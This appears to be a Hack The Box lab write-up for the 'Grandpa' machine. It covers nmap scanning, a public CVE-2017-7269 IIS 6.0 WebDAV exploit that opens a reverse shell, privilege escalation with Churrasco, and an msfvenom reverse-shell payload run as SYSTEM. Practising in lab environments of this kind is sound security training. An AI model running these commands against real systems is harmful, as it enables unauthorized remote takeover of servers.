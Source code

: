 # Grandpa Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -T4 -p- -sV -oA fullgrandpa 10.10.10.14``

![image](https://user-images.githubusercontent.com/123066149/221123940-c6cf766e-2cef-4e2b-a2c3-e32af2f1e96c.png)

### On this only the port 80 is open there is an ISS 6.0 and WEBDAV  :

``nmap -sC -sV -oA grandpa 10.10.10.14 -T4``

![image](https://user-images.githubusercontent.com/123066149/221124410-19da52ac-a55f-4530-9db3-55fdcc355cc3.png)

# ${{\color{purple}Initial Foothold}}\ $

### The following methods are allowed :

``Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK``

### The right way here is : iis 6.0 and the PROFIND method which is active

![image](https://user-images.githubusercontent.com/123066149/221125371-2ee1ce5c-5897-44f6-a561-96e7de8a1ee3.png)

![image](https://user-images.githubusercontent.com/123066149/221125507-bac221ed-0bac-47b2-a433-b08cd7a080b2.png)

### So I will move on to the exploitation of this buffer :

# ${{\color{purple}Exploitation}}\ $

### I used this exploit :

https://github.com/k4u5h41/CVE-2017-7269

``python2.7 ii6_reverse_shell.py 10.10.10.14 80 10.10.16.5 4444``

![image](https://user-images.githubusercontent.com/123066149/221126503-b6339b87-a15f-4a0c-a76a-c4f18efd788c.png)

![image](https://user-images.githubusercontent.com/123066149/221126601-53615812-d97e-4f08-879c-7b5f2db13a22.png)

# ${{\color{purple}Privilege Escalation}}\ $

![image](https://user-images.githubusercontent.com/123066149/221126796-38030014-f695-4f30-b8b4-61c86cf63679.png)

``SEImpersonalPrivilege``
### Is one I know to look out for modern boxes, that means a potato exploit (juicy, lonely, rotten). But for 2003, 
### It’s better to start with kernel exploit :

``python windows-exploit-suggester.py -d 2023-02-18-mssb.xls -i ../sysinfo.txt > vuln.txt``

![image](https://user-images.githubusercontent.com/123066149/221127842-8284e835-646b-47a9-934c-bdc25f4314eb.png)

### I had a choice but I used e``Churraskito.exee`` / ``churrasco.exe``

https://github.com/Re4son/Churrasco/

``copy \\10.10.16.5\kali\Churraskito.exe`` 

``Churraskito.exe "C:\Windows\system32\cmd.exe" "whoami"``

![image](https://user-images.githubusercontent.com/123066149/221128486-dcde9079-e41c-40ea-871b-c35488e243d8.png)

``msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.5 LPORT=8888 -f exe -o exploit.exe``

``Churraskito.exe "C:\Windows\system32\cmd.exe" "C:\wmpub\exploit.exe"``

![image](https://user-images.githubusercontent.com/123066149/221128707-7440e4e1-8041-4a31-b9a2-a69fdc243a11.png)

# ${{\color{purple}Points of Improvement}}\ $
